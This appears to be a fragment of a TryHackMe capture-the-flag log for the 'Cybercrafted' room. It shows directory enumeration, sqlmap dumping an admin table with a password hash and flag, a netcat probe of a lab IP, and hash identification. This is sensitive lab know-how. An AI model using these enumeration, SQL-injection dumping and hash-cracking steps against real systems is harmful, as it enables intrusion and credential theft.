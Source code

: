 ``` bash
/assets               (Status: 301) [Size: 333] [--> http://store.cybercrafted.thm/assets/]
/index.html           (Status: 403) [Size: 287]
/server-status        (Status: 403) [Size: 287]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```




[23:00:19] [INFO] recognized possible password hashes in column '`hash`'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 

do you want to crack them via a dictionary-based attack? [Y/n/q] 

[23:00:24] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 

[23:00:25] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] 

[23:00:28] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[23:00:28] [INFO] starting 4 processes 
[23:00:31] [WARNING] no clear password(s) found                                                                                                                                                          
Database: webapp
Table: admin
[2 entries]
+----+------------------------------------------+---------------------+
| id | hash                                     | user                |
+----+------------------------------------------+---------------------+
| 1  | 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01 | xXUltimateCreeperXx |
| 4  | THM{bbe315906038c3a62d9b195001f75008}    | web_flag            |
+----+------------------------------------------+---------------------+

[23:00:31] [INFO] table 'webapp.`admin`' dumped to CSV file '/home/sheliak/.local/share/sqlmap/output/store.cybercrafted.thm/dump/webapp/admin.csv'
[23:00:31] [INFO] fetched data logged to text files under '/home/sheliak/.local/share/sqlmap/output/store.cybercrafted.thm'

[*] ending @ 23:00:31 /2024-08-28/

                                                                                                                                                                                                          
┌──(sheliak㉿kalipt)-[~/CTF/THM]
└─$ nc 10.10.70.235 25565               
^C
                                                                                                                                                                                                          
┌──(sheliak㉿kalipt)-[~/CTF/THM]
└─$ hashid 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01                         
Analyzing '88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01'
[+] SHA-1 
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160) 
                                                                                                                                                                                                          